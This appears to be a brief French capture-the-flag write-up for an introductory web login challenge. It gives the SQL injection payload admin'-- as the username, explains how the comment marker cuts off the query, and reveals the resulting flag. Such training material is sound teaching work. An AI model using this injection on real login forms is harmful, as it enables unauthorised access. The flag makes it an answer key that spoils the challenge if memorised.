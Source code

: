 Challenge d'introduction au Web, arriveras-tu à te login en admin ?

PS : Regarde bien le titre et n'hésite pas à t'aider d'internet

ATTENTION: PAS BESOIN D'UTILISER SQLMAP OU D'AUTRES OUTILS D'AUTOMATISATION/SCAN
http://intro.ctfrei.fr:6001/ 

---------------------

SQLi très classique

login : admin'--

password : yolo

les -- permettent de mettre le reste de la requêtes en commentaire.

Welcome Admin!

Here is your flag: CTFREI{SQLI_1s_0p}
